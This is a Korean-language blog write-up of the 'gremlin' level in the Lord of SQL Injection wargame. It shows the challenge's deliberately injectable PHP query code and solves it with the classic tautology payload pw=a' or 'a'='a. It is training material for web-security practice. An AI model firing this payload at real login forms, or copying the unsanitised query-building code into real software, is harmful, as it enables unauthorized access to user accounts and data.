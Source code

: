 ```yaml
---
layout: post
title: ! "[Lord of SQL Injection] LoS - gremlin 문제풀이"
excerpt_separator: <!--more-->
comments: true
tags:
  - Write-up
  - Lord of SQL Injection
---
```


예전에 `LoS` 문제를 풀어본 적 있었다.  

이 때는 [http://los.eagle-jump.org](http://los.eagle-jump.org)에서 풀었었는데, 원작자가 새로운 문제를 추가 해 서비스를 시작했다 해 다시 풀어보게 되었다.  

사이트 주소는 [http://los.rubiya.kr](http://los.rubiya.kr) 이다.  

<!--more-->

`LoS`는 따로 플래그를 입력하는 방식이 아니라 코드 안의 `solve()` 함수가 동작하도록 하면 문제가 풀린다.  

그리고 친절하게 내가 입력 한 값이 어떻게 쿼리에 들어가는지도 보여준다.  

첫 번째 문제는 `gremlin`이다.  

코드는 다음과 같다.  

```php
-------------------------------------------------------------------------------
query : select id from prob_gremlin where id='' and pw=''
-------------------------------------------------------------------------------

<?php
  include "./config.php";
  login_chk();
  dbconnect();
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~"); // do not try to attack another table, database!
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
  $query = "select id from prob_gremlin where id='{$_GET[id]}' and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysql_fetch_array(mysql_query($query));
  if($result['id']) solve("gremlin");
  highlight_file(__FILE__);
?>
```

문제를 풀기 위해서는 `if($result['id']) solve("gremlin");`에서 조건문을 통과해야 한다.  

즉, 쿼리를 실행했을 때 추출되는 id 값이 있으면 된다.  

실행되는 쿼리는 다음과 같다.  

```php
select id from prob_gremlin where id='{$_GET[id]}' and pw='{$_GET[pw]}'
```

이 때, `id`와 `pw`의 값은 `GET` 방식으로 받아온다.  

`id`가 뭐든 상관 없기때문에 그냥 쿼리 결과가 참이 될 수 있는 값을 입력하면 될 것 같다.  

쿼리문을 완성하기 위해 아래와 같이 입력했다.  

```
?id=admin&pw=a' or 'a'='a
```

그 결과 아래와 같이 문제를 풀 수 있었다.  

```php
-----------------------------------------------------------------------------------------------------
query : select id from prob_gremlin where id='admin' and pw='a' or 'a' = 'a'
-----------------------------------------------------------------------------------------------------

GREMLIN Clear!
<?php
  include "./config.php";
  login_chk();
  dbconnect();
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~"); // do not try to attack another table, database!
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
  $query = "select id from prob_gremlin where id='{$_GET[id]}' and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysql_fetch_array(mysql_query($query));
  if($result['id']) solve("gremlin");
  highlight_file(__FILE__);
?>
```

`Gremlin Clear!!`
